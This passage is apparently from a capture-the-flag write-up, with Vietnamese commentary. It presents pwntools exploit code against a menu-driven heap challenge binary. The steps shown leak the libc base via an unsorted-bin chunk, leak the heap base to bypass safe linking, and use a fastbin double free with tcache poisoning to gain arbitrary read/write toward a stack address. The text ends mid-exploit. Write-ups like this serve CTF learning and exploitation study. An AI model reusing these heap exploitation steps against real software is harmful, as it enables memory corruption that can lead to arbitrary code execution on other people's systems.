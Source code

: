 ```python
    con.sendlineafter(b'Which incubator? ', str(idx).encode())
    con.sendlineafter(b'Size? ', str(size).encode())
    con.sendlineafter(b'[3] Fixed Buffer\n> ', b'0')
    con.sendlineafter(b'Label: ', payload)

def inspect2(idx):
    con.sendlineafter(b'[4] Give up\n> ', b'2')
    con.sendlineafter(b'Which incubator? ', str(idx).encode())

def resize3(idx, size):
    con.sendlineafter(b'[4] Give up\n> ', b'3')
    con.sendlineafter(b'Which incubator? ', str(idx).encode())
    con.sendlineafter(b'Target size: ', str(size).encode())
    con.sendlineafter(b'[3] Fixed Buffer\n> ', b'0')
```

2, Leak libc bằng unsorted bin

```python
### stage 1: leak libc
alloc0(0, 1040, b'')
alloc0(1, 16, b'') # prevent consolidation
resize3(0, 0)
inspect2(0)
leak = u64(con.recv(8))
libc.address = leak - (libc.sym['main_arena']+96)
log.success('Libc base: ' + hex(libc.address))
```

3, Leak địa chỉ heap để bypass cơ chế safe linking, sau đó sử dụng double free dể leak địa chỉ stack bằng những thao tác sau:
+ Lấp đầy tcache và thực hiện fastbin dup
+ Lấy hết các chunk ra khỏi tcache
+ Ghi đè fd bằng địa chỉ bất kỳ (lưu ý align), lúc này heap sẽ đưa các chunk trong fastbin vào tcache, ta sẽ có quyền đọc/ghi tuỳ ý
+ Địa chỉ để leak stack là libc environ hoặc một địa chỉ cố định chứa stack address (trong script của mình là 0x1008470)

```python
### stage 2: get arby read/write
## stage 2.1: fill tcache and add a chunk to fastbin
for i in range(2,9):
    alloc0(i, 16, b'')
alloc0(9, 16, b'')
alloc0(10, 16, b'')

for i in range(2,9):
    resize3(i, 0)

## side quest: leak heap base
inspect2(2)
heap_base = u64(con.recv(8)) << 12
log.success('Heap base: ' + hex(heap_base))

resize3(9, 0)
resize3(10, 0)
resize3(9, 0)

## stage 2.2: pop a chunk from tcache and push a chunk from fastbin into it -> tcache poisoning
for i in range(2,9):
    alloc0(i, 16, b'')

alloc0(9, 16, p64(0x1008470 ^ (heap_base + 0x380) >> 12)) # bypass safe linking
alloc0(10, 16, b'')
alloc0(9, 16, b'')
```